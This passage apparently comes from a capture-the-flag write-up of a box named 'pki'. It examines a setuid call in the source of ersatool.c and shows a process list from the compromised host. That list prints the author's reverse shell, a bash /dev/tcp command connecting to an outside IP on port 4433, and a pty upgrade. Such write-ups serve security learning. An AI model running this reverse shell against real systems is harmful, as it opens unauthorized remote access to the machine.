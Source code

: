 
There’s also a `ersatool.c` file in `/usr/src` that is likely the source for
the application.

    
    
    www-data@pki:~/html$ ls /usr/src/
    ersatool.c
    

Looking through the source, there are two places where it calls `setuid`. For
example, in the `filePrint` function:

    
    
    void filePrint(char *filename){
            int bfsiz=1;
            char buffer[bfsiz];
            int fd;
            ssize_t fr;
            memset(buffer,0,bfsiz);
            setuid(0); //escalating privileges to read root owned files
            if((fd=open(filename,O_RDONLY))<0){
                    printf("[!] ERR reading %s!\n",filename);
            }
            while(fr=read(fd,buffer,bfsiz)>0){
                    printf("%s",buffer);     
                    memset(buffer,0,bfsiz);  
            }
            close(fd);
            fflush(stdout);             
    } 
    

That raises a question - how can it make that call? It would need to be
running as root, or somehow be given that capability. I already looked, and
while the file is owned by root, it isn’t SUID. It is being called by NGINX,
but that process is running as www-data, as evidenced by my current shell, as
well as the process list:

    
    
    www-data@pki:~/html$ ps auxww                       
    USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root          1  0.0  0.0   4628   856 ?        Ss   11:40   0:00 /bin/sh -c /entry.sh
    root          9  0.0  0.0  18376  3056 ?        S    11:40   0:00 /bin/bash /entry.sh
    root         11  0.0  0.0 141120  1572 ?        Ss   11:40   0:00 nginx: master process nginx
    www-data     12  0.0  0.1 141776  5076 ?        S    11:40   0:02 nginx: worker process
    www-data     13  0.0  0.0 141440  3480 ?        S    11:40   0:00 nginx: worker process
    root         14  0.0  0.3  84952 12824 ?        Ss   11:40   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
    www-data     15  0.0  0.2  85216  9384 ?        S    11:40   0:01 php-fpm: pool www
    www-data     19  0.0  0.2  85216  9388 ?        S    11:40   0:01 php-fpm: pool www
    www-data    128  0.0  0.2  85224 10080 ?        S    12:04   0:02 php-fpm: pool www
    www-data    636  0.0  0.2  85220  9512 ?        S    12:05   0:01 php-fpm: pool www
    www-data  11226  0.0  0.2  85220  9512 ?        S    12:07   0:00 php-fpm: pool www
    www-data  14776  0.0  0.0   4628   860 ?        S    12:22   0:00 sh -c bash -c 'bash -i >& /dev/tcp/192.168.254.2/4433 0>&1'
    www-data  14777  0.0  0.0  18376  3112 ?        S    12:22   0:00 bash -c bash -i >& /dev/tcp/192.168.254.2/4433 0>&1
    www-data  14778  0.0  0.0  18508  3472 ?        S    12:22   0:00 bash -i
    www-data  14782  0.0  0.2  36668  8608 ?        R    12:25   0:00 python3 -c import pty;pty.spawn("bash")
    www-data  14783  0.0  0.0  18508  3440 pts/0    Ss   12:25   0:00 bash
    www-data  14914  0.0  0.0  34404  2948 pts/0    R+   13:18   0:00 ps auxww
    